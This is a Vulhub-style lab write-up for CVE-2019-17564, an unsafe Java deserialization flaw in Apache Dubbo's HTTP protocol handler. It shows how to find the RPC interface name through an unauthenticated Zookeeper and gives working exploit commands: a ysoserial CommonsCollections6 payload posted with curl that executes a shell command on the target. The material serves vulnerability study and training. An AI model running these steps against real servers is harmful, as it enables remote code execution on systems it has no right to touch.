


Aapche Dubbo Unsafe Java Deserialization (CVE-2019-17564)¶
Apache Dubbo is a high-performance, java based open source RPC framework.
Apache Dubbo supports different protocols, and its HTTP protocol handler is a wrapper of Spring Framework's org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter.
A security warning of Spring Framework shows that an unsafe Java deserialization is exist in the HttpInvokerServiceExporter, which could lead to a RCE vulnerability:
WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code As a consequence, do not expose HTTP invoker endpoints to untrusted As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.
This vulnerability affects Apache Dubbo 2.7.4 and earlier, after 2.7.5 Dubbo replace HttpInvokerServiceExporter with com.googlecode.jsonrpc4j.JsonRpcServer.
Reference links.
- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/
Vulnerable Application¶
Start an Apache Dubbo 2.7.3 Provider by executing the following command.
docker compose up -d
After the service is started, browser http://your-ip:8080 and the server will return an empty 500 error page by default.
Exploit¶
It is important to know the RPC interface name before leveraging this vulnerability.
Vulhub is exposing the port 8080 and port 2181, where 2181 is the port of Zookeeper. Download Zookeeper and use the script zkCli to connect to the unauthenticated Zookeeper server:
./zkCli -server target-ip:2181
After connecting, it is come with an interactive console, where you can ls all nodes, including Dubbo-related configuration.

Get the RPC interface named org.vulhub.api.CalcService. Use ysoserial to generate a CommonsCollections6 payload, then send it to http://your-ip:8080/org.vulhub.api.CalcService as POST body.
java -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService

Entering the container, you can see that touch /tmp/success has been executed successfully.
